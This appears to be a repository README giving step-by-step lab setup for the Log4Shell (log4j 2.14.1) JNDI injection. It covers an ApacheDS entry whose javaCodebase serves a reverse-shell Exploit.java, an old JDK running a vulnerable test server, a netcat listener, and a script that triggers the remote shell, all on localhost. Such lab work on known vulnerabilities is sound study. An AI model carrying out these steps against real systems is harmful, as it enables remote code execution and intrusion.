 LDAP SERVER DOWNLOAD AND CONFIG:
- download ldapds: sudo apt install apacheds and make sure its active.
- download apache directory studio: https://directory.apache.org/studio/download/download-linux.html
- extract it, then run the executable to open it.
- create new connection: hostname - localhost, port 10389, then click next.
						 in bind dn or user choose uid=admin,ou=system.  in bind password choose "secret".  then click finish.
- create ldap entry:  click on ou=config and then LDAP->new entry, then click next.
						in available object classes search for java, and add javaNamingReference and javaContainer and click next.
						in RDN choose javaFactory in = put Exploit and click next.
						in cn put au, in javaclassName put Exploit. click on the + (above) to add new attribute, and add javaCodebase.
						in javaCodebase put http://localhost:8000/ (which is the path of the http server that we open in the following stage 1, 
						that hold the reverse shell file (Exploit.java))


 
1. in the location that you put the reverse shell file (call it Exploit.java) open a http server: python3 -m http.server 8000
2. run this command in the folder you put the two jar files (that arein the victim folder): export CLASSPATH=$(pwd)/log4j-core-2.14.1.jar:$(pwd)/log4j-api-2.14.1.jar
3. install jpk1.8.0_181 from here:  https://mirrors.huaweicloud.com/java/jdk/8u181-b13/
4. then extract it.
5. compile our files with this version: ~/Downloads/jdk-8u181-linux-x64/jdk1.8.0_181/bin/javac HelloWorldServer.java (the vulnerable http server for the ldap inject)
										~/Downloads/jdk-8u181-linux-x64/jdk1.8.0_181/bin/javac Exploit.java (this is the reverse shell file)
    
6. then run our vulnerable server with this version: ~/Downloads/jdk-8u181-linux-x64/jdk1.8.0_181/bin/java HelloWorldServer		
7. listen with netcat on the port used in the reverse shell file: nc -lvnp 5000
8. run req.py script to inject the ldap request to the vulnerable server, and ldap will fetch the (Exploit)file to the server we opened in step 1, and provide a reverse shell for us.
